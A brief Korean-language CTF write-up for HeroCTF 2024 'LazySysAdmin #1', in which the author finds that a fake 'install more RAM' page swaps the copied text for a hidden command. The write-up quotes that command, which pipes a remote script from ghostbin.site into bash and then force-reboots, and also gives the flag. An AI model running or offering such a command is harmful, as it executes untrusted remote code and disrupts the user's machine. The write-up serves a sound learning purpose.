## CTF 정보
- CTF: HeroCTF 2024
- 문제 이름: LazySysAdmin #1
- 점수: 50
- 난이도: easy


## Description
Your system administrator calls you, all worried, he's just observed some strange behavior: the server he was connected on has suddenly shut down. After some questioning, you realize that he's been browsing on a suspicious wesite. You decide to inspect the website yourself. Will you be able to find the root of your problems ? Once you've found it, base64 the malicious charge.
> URL: [**http://misc.heroctf.fr:8085**](http://misc.heroctf.fr:8085/)
- Format : HERO{base64(malicious charge)} (no case-sensitive)
- Example : HERO{YmFzZTY0IDQgbGlmZS4=}

## Solution
- 사이트 구경해보면서 이것 저것 눌러보고 있었는데, 처음에는 Nestflix가 문제일 거라고 생각함
- 근데 암만 누르고 검색해봐도 안돼서 램 추가로 설치할 수 있는 페이지 살펴보기로 함

![alt text](image.png)


- 너무나 수상쩍어보임
- 그래서 한번 해볼까 싶어서 복붙하는데 이상한 명령어가 붙어넣어짐
    
    ```rust
    curl -s https://ghostbin.site/6y65l/raw | bash && sleep 2 && reboot -f
    ```
    
    - 누가봐도 reboot 하는 명령;
- 혹시나 해서 이걸 base64 시켜서 인증해봤는데 정답이었다..

## flag

`Hero{Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZg==}`